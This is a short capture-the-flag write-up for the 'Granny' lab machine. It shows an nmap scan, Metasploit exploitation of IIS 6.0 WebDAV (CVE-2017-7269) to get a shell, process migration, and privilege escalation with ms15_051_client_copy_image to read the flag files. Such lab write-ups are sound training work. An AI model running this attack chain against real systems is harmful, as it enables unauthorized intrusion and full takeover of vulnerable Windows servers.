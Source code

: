 
Granny is very similar to Grandpa, as we shall see.

A quick nmap search,

```
nmap {taget ip}
```

Shows port `80` is open, with one service, `Microsoft IIS version 6.0` which has a remote code execution vulnerability (CVE-2017-7269).

I run metasploit:

```
$ msfconsole

...

msf > search CVE-2017-7269

...

msf > use iis_webdav_upload_asp
```

Using the metasploit module `iis_webdav_upload_asp`, running `options`, I find I need to define `RHOSTS` (or the target ip), `LHOST` (the listening or my local ip), I can then run `exploit`.

```
msf > exploit
```

Running exploit gets me a shell on the target machine, but very little in terms of privileges. As I'm unable to run `getuid` or access the user flag.  At this point I run `ps`, which lists the running processes on this Windows box, and run `migrate 1796` (or some other pid), which is a process owned by `NT AUTHORITY\NETWORK SERVICE`, which I need to run before I run the next exploits.

In metasploit, run `background`, to set the current session to background so I can run `local_exploit_suggester`, which lists some exploits to improve my priv_escalation.

```
msf > background
msf > local_exploit_suggester
...
msf > use ms15_051_client_copy_image
```

In both the `local_exploit_suggester` and `ms15_051_client_copy_image`, when I run options I see that I do need to `set session 1`, or I need to tell metasploit that the next exploit needs to run on the initial `iis_webdav_upload_asp` exploit.

`ms15_051_client_copy_image` gets root access and I am able to find both flags in:

- `C:\Documents and Settings\Administrator\Desktop\root.txt`
- `C:\Documents and Settings\Lakis\Desktop\user.txt`